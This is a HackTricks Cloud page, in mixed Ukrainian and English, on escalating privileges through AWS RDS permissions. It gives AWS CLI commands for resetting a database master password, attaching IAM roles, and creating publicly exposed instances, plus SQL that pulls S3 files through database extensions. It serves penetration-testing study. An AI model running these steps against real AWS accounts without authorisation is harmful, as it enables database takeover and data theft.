 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Служба реляційних баз даних

For more information about RDS check:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

With that permission an attacker can **змінити пароль майстер-користувача**, and the login inside the database:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Вам потрібно буде **зв'язатися з базою даних** (зазвичай вони доступні лише з внутрішніх мереж).
{% endhint %}

**Потенційний вплив:** Знайти чутливу інформацію всередині баз даних.

### rds-db:connect

Згідно з [**документацією**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), користувач з цим дозволом може підключитися до екземпляра БД.

### Зловживання дозволами ролі IAM RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Якщо виконуючи **`SELECT datname FROM pg_database;`** ви знайдете базу даних під назвою **`rdsadmin`**, ви знаєте, що ви всередині **AWS postgresql бази даних**.
{% endhint %}

Спочатку ви можете перевірити, чи використовувалася ця база даних для доступу до будь-якої іншої служби AWS. Ви можете перевірити це, подивившись на встановлені розширення:
```sql
SELECT * FROM pg_extension;
```
Якщо ви знайдете щось на кшталт **`aws_s3`**, ви можете припустити, що ця база даних має **якийсь доступ до S3** (є й інші розширення, такі як **`aws_ml`** та **`aws_lambda`**).

Також, якщо у вас є дозволи на виконання **`aws rds describe-db-clusters`**, ви можете побачити, чи **кластер має прикріплену IAM роль** у полі **`AssociatedRoles`**. Якщо так, ви можете припустити, що база даних була **підготовлена для доступу до інших сервісів AWS**. Виходячи з **імені ролі** (або якщо ви можете отримати **дозволи** ролі), ви могли б **вгадати**, який додатковий доступ має база даних.

Тепер, щоб **прочитати файл всередині бакету**, вам потрібно знати повний шлях. Ви можете прочитати його за допомогою:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Якщо у вас є **сирі AWS облікові дані**, ви також можете використовувати їх для доступу до даних S3 за допомогою:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **не потрібно змінювати жодну змінну групи параметрів**, щоб мати доступ до S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Всередині mysql, якщо ви виконаєте запит **`SELECT User, Host FROM mysql.user;`** і є користувач з ім'ям **`rdsadmin`**, ви можете припустити, що ви знаходитесь всередині **AWS RDS mysql db**.
{% endhint %}

Всередині mysql виконайте **`show variables;`** і якщо змінні, такі як **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, мають значення, ви можете припустити, що база даних готова до доступу до даних S3.

Також, якщо у вас є дозволи на виконання **`aws rds describe-db-clusters`**, ви можете перевірити, чи має кластер будь-яку **асоційовану роль**, що зазвичай означає доступ до сервісів AWS).

Тепер, щоб **прочитати файл всередині бакету**, вам потрібно знати повний шлях. Ви можете прочитати його за допомогою:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Атакуючий з правами `rds:AddRoleToDBCluster` та `iam:PassRole` може **додати вказану роль до існуючого екземпляра RDS**. Це може дозволити атакуючому **отримати доступ до чутливих даних** або змінити дані в межах екземпляра.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Потенційний вплив**: Доступ до чутливих даних або несанкціоновані зміни даних у екземплярі RDS.\
Зверніть увагу, що деякі БД вимагають додаткових налаштувань, таких як Mysql, який потребує вказати роль ARN у групах параметрів.

### `rds:CreateDBInstance`

Лише з цим дозволом зловмисник може створити **новий екземпляр всередині кластера**, який вже існує і має прикріплену **IAM роль**. Він не зможе змінити пароль майстер-користувача, але може мати можливість виставити новий екземпляр бази даних в інтернет:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Зловмисник з дозволами `rds:CreateDBInstance` та `iam:PassRole` може **створити новий екземпляр RDS з прикріпленою вказаною роллю**. Зловмисник може потім потенційно **отримати доступ до чутливих даних** або змінити дані в екземплярі.

{% hint style="warning" %}
Деякі вимоги до ролі/профілю екземпляра для прикріплення (з [**тут**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Профіль повинен існувати у вашому обліковому записі.
* Профіль повинен мати IAM роль, яку Amazon EC2 має право приймати.
* Ім'я профілю екземпляра та пов'язане ім'я IAM ролі повинні починатися з префікса `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Потенційний вплив**: Доступ до чутливих даних або несанкціоновані зміни даних у екземплярі RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Зловмисник з правами `rds:AddRoleToDBInstance` та `iam:PassRole` може **додати вказану роль до існуючого екземпляра RDS**. Це може дозволити зловмиснику **доступ до чутливих даних** або змінити дані в межах екземпляра.

{% hint style="warning" %}
Екземпляр БД повинен бути поза кластером для цього
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potential Impact**: Доступ до чутливих даних або несанкціоновані зміни даних у екземплярі RDS.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
